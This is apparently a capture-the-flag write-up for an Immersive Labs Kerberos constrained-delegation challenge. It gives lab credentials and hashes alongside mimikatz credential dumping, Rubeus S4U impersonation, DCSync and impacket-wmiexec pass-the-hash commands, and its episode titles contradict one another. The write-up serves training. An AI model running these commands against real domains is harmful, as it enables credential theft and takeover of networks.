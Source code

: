 ```yaml
---
date: 2025-04-23
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.10 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'ldap', 'mimikatz', 'privilege escalation', 'rce']

description: "Kerberos Ep.10 – Constrained Delegation - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.10 – Constrained Delegation


![image1](../resources/24572ad78ded4dd98fdf3c6ad76e3479.png)

- RDP:

```bash
xfreerdp /v:10.102.178.2 /u:s.villanelle /d:krbtown /p:Summ3r2021! +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Enumerating for constrained delegation:
  - Open Powerview_dev.ps1:

```powershell
. .\Powerview_dev.ps1
Get-DomainComputer -TrustedToAuth
```

![image2](../resources/929e32b85b234e2a8dabd20fc9e07801.png)


![image3](../resources/5bec82bd8acc4f948467580078970b92.png)


![image4](../resources/aa1e7bdd94104b41bae886da0de5adf0.png)


![image5](../resources/c1cb618a49bb4af48af5de15fd518b91.png)

- RDP to WKS-02
- Run mimikatz

```powershell
privilege::debug
sekurlsa::logonpasswords

```

![image6](../resources/c848a6fa7cc642dca0f7f15e5d943d62.png)


![image7](../resources/dc5ca5cbdc1b4844a52c7ac6aa02134a.png)

- Impersonate a.belridge, using workstation-02\$ as the target host:

```powershell
.\Rubeus.exe s4u /user:workstation-02$ /rc4:[HASH] /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

.\Rubeus.exe s4u /user:workstation-02$ /rc4:6ee2e72810d54399a588b424ac22df1e /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

```

![image8](../resources/1fb367d85ec84645869a9f58d631e39c.png)


![image9](../resources/6507e1cfe4f54498893b741d1128dd2e.png)


![image10](../resources/5f0674f9dc0b4c7aab78a87b27787a1e.png)


![image11](../resources/5b32eceaae30422989624bf7549904b9.png)


![image12](../resources/89cbbec614654ca7a6039fcec99f93ca.png)


![image13](../resources/cbed1e41eff34035b87a29e067e09fe5.png)

- Run Mimikatz on an elevated command prompt:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image14](../resources/ad8d9d01313046279b3849a1bbe84b0c.png)

- Use wmiexec to get shell:

```bash
impacket-wmiexec [DOMAIN][USERNAME]@[TARGET] -hashes '[LM-HASH]:[NT-HASH]'

impacket-wmiexec krbtown/a.belridge@10.102.93.148 -hashes 'a76a0f6f801d8430903f7f299c18dfc4:ed882753d4665914577c19b6b85ead51'

```

![image15](../resources/65b197d9a02d4da48061d4fea7a5b6bd.png)
